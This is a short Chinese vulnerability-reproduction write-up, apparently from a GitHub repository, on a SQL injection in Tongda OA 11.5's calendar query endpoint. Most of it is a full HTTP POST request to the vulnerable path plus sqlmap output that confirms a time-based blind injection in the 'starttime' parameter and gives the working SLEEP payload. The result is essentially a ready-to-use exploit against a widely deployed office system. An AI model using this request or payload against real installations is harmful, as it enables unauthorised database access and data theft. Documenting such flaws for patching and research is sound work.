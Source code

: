 # 通达OA11.5漏洞复现
` @Time : 2020年8月24日, 0024 10:30`
` @Author  : 862897316@qq.com`
` @Software: PyCharm`

```
开始编写
```
[原文链接](https://mp.weixin.qq.com/s/3bI7v-hv4rMUnCIT0GLkJA)

### 1.SQL注入1

> 在【日程管理】->【查询日程】位置

![](images/oa_01.png)
```angular2html
POST /general/appbuilder/web/calendar/calendarlist/getcallist HTTP/1.1
Host: 192.168.184.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.184.139/general//calendarArrange/calendarArrange.php
Content-Length: 69
Cookie: PHPSESSID=a94j8pel3r8b1idtmd50ro8760; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=62b732f8; _csrf=5385866953c7f651f3e333549e332c8a3681787c5e27714e207628997c560ef3a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22XaoEpsYBGEQCHrj8aTAiwqICdEDQBP1U%22%3B%7D
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

view=month&starttime=1595779200&endtime=1599408000&callback=undefined
```
```angular2html
sqlmap identified the following injection point(s) with a total of 172 HTTP(s) requests:
---
Parameter: starttime (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=month&starttime=1595779200') AND (SELECT 9275 FROM (SELECT(SLEEP(5)))UPQR) AND ('MHNP'='MHNP&endtime=1599408000&callback=undefined
---

```



> 乾坤未定,你我皆是黑马
